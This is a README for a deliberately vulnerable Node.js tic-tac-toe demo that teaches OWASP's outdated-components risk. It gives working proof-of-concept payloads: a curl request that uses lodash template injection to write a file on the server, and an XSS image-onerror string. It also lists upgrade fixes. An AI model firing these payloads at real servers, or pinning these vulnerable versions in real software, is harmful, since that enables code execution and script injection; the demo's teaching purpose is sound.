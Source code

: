 # Tic‑Tac‑Toe Vulnerable Demo

This intentionally vulnerable Node.js app demonstrates **OWASP Top 10 – A06: Vulnerable & Outdated Components**. It uses:

* **lodash 4.17.20** – vulnerable to Command Injection via `_.template` (CVE‑2021‑23337).
* **jQuery 3.4.1** – vulnerable to XSS via DOM manipulation functions (CVE‑2020‑11022).

## Setup

```bash
npm install
npm start
```

Visit http://localhost:3000.

## Exploits

### Remote Code Execution (server side)

```bash
curl -X POST http://localhost:3000/api/message \
  -H "Content-Type: application/json" \
  -d '{ "msg": "<% require(\"fs\").writeFileSync(\"pwned.txt\", \"owned\") %>" }'
```

A file `pwned.txt` will be created in the project root.

### Cross‑Site Scripting (client side)

Set the player name to include:

```html
<img src=x onerror=alert('XSS')>
```

An alert box pops.

## Fix

```bash
npm install lodash@4.17.21 jquery@3.7.1
```

Escape output on server and use `$('#scores').text(player.name)` instead of `html()`.